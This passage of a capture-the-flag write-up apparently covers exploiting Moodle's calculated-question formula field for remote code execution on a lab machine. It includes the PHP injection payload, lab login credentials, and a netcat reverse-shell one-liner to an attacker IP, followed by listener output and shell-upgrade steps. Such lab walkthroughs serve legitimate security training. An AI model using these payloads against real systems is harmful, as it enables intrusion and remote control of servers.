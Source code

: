 

    /*{a*/`$_GET[0]`;//{x}}



#### Execution

I'll log in using giovanni / Th4C00lTheacha#, and then go to Algebra.
From there, I'll click the gear icon and "Turn editing on":

![](/img/1555339641587.png)

Then, for any of the Topics, I'll click "Add an activity or resource",
select Quiz, and hit "Add". I'll make up a name and description, and
save it.

Now I can click on the quiz and then click the "Edit Quiz" button. I'll
click "Add" and then "a new question". In the pop-up I'll select
"Calculated" and click "Add". I'll fill in all the required fields, but
the only one that matters is the "Answer 1 formula". In there I'll add
the string from exploit.

I'll save, hit next, and then add `&0=ping -c 1 10.10.14.3` to end of
url. When I do, I see a ping back to me on `tcpdump`.

Here's the full attack:

[![](/img/teacher-rce.gif)*Click for full
size ![image*](/img/teacher-rce.gif)

### Shell

I'll use this RCE to get a shell, grabbing my go to from the [reverse
shell cheat
sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet),
adding
`0=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.3 443 >/tmp/f`
to the end of the url. I did have to encode the `&` so that it wasn't
treated as another parameter. I'll get a callback on `nc`:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.153.
    Ncat: Connection from 10.10.10.153:40490.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Upgrade

I'll upgrade my shell to a full tty. Use `python` to launch bash through
the `pty` module. Background the shell with Ctrl-z, then run
`stty raw -echo`. Then type `fg` to bring the shell back to the
foreground. And run `reset` to get the shell working again. Finally,
I'll `export TERM=screen` so I can clear and other things like that.
